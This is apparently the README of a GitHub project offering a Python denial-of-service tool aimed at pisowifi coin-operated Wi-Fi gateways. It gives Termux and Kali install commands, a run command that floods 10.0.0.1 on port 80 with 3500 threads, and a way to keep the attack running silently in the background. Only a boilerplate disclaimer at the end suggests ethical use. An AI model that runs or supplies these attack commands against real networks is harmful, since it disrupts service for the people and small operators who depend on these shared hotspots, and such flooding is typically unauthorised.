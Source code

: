 # Pisowifi DDOS

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- [Termux](https://github.com/termux/termux-app/releases)

# Manual Install
<details><summary> Expand
</summary>
  
```
pkg update && pkg upgrade -y
```
```
pkg install git python -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
chmod 755 ddos.py
```
```
python ddos.py
```
</details>

# Auto Install
Termux
```
pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && chmod 755 pisowifi-ddos/*.py && cd pisowifi-ddos && ls
```

<details><summary> Kali
</summary>
  
```
sudo update && sudo apt upgrade -y && sudo apt install git python3 -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && chmod 755 pisowifi-ddos/ddos.py && cd pisowifi-ddos && ls
```
</details>

# Run
```
cd pisowifi-ddos
```
```
python ddos.py -s 10.0.0.1 -p 80 -t 3500
```

<details><summary> Background mode
</summary>

```
python ddos.py -s 10.0.0.1 -p 80 -t 3500 > /dev/null 2>&1 &
```
</details>

<details><summary> kill the process
</summary>
  
```
pkill -f python
```
</details>

# Screenshot

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

## ⚠️ Disclaimers
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
